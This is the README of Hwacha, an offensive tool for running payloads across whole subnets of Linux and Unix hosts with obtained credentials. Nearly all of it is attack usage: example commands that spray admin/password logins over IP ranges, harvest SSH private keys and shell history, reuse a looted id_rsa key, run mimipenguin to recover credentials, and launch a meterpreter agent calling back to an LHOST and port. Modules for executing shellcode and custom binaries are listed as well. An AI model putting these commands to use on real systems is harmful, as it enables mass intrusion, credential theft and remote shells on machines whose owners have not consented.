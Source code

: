 # Hwacha
![alt tag](https://github.com/n00py/hwacha/blob/master/hwacha.png)

https://www.n00py.io/2017/12/raining-shells-on-linux-environments-with-hwacha/

Hwacha is a tool to quickly execute payloads on *Nix based systems.  Easily collect artifacts or execute shellcode on an entire subnet of systems for which credentials are obtained. 


    $python hwacha.py 
        &&&&     &&         &&        &&
    &&&&&&&&&&&& &&         &&        &&      Created by Esteban Rodriguez   /~~\_
       &&&&&&    &&     &&&&&&&&&&    &&	  Web: https://www.n00py.io     /| '` *\
      &&    &&   &&&&&      &&        &&&&&        Twitter: @n00py1         \|  ___/
     &&      &&  &&&&&    &&  &&      &&&&&   _   _                     _
      &&    &&   &&      &&    &&     &&     | | | |                   | |
       &&&&&&    &&    &&&      &&&   &&     | |_| |__      ____ _  ___| |__   __ _
         &&      &&   &&          &&  &&     |  _  |\ \ /\ / / _` |/ __| '_ \ / _` |
    &&&&&&&&&&&&&&&                   &&     | | | | \ V  V / (_| | (__| | | | (_| |
                 &&                   &&     \_| |_/  \_/\_/ \__,_|\___|_| |_|\__,_| 
    To run commands, use -x [COMMAND]
    to run modules, use -m [MODULE]
    to specify module options, use -o [ARG=ARG ARG=ARG]
    to see all available modules, use -L
    Example usage:
    python hwacha.py -t 192.168.1.1/24 -u admin  -p password
    python hwacha.py -t 192.168.1.100-200 -u admin  -p password -m keys
    python hwacha.py -t 192.168.1.100-200 -u admin  -i loot/keys/192.168.1.101/id_rsa -x id
    python hwacha.py -t 192.168.1.123 -u admin  -p password -m meterpreter -o "LPORT=4444 LHOST=192.168.1.150 TYPE=64"


    Available Modules:
    [*] meterpreter               Use this to execute a meterpreter agent on the target(s).
                                  REQURED ARGUMENTS: LHOST , LPORT
                                  OPTIONAL ARGUMENTS: TYPE {python, php, 32, 64, osx}
    [*] mimipenguin               Use this to execute a mimipenguin on the target(s) to recover credentials.  (Requires root)
                                  OPTIONAL ARGUMENTS: LHOST, LPORT
    [*] keys                      Use this to collect SSH private keys from the target(s).
    [*] history                   Use this to collect shell history files from the target(s).
    [*] privs                     Use this to enumerate sudo privileges on the targets(s).
    [*] web_delivery               Use this to execute a python script on the target(s).
                                  REQURED ARGUMENTS: PATH
                                  OPTIONAL ARGUMENTS: LISTEN
    [*] custom_bin               Use this to execute a custom binary on the target(s).
                                  REQURED ARGUMENTS: PATH
    [*] sudo_exec               Use this to execute a custom binary (with sudo) on the target(s).
                                  REQURED ARGUMENTS: PATH
    [*] shellcode               Use this to execute custom shellcode on the target(s).
                                  REQURED ARGUMENTS: PATH

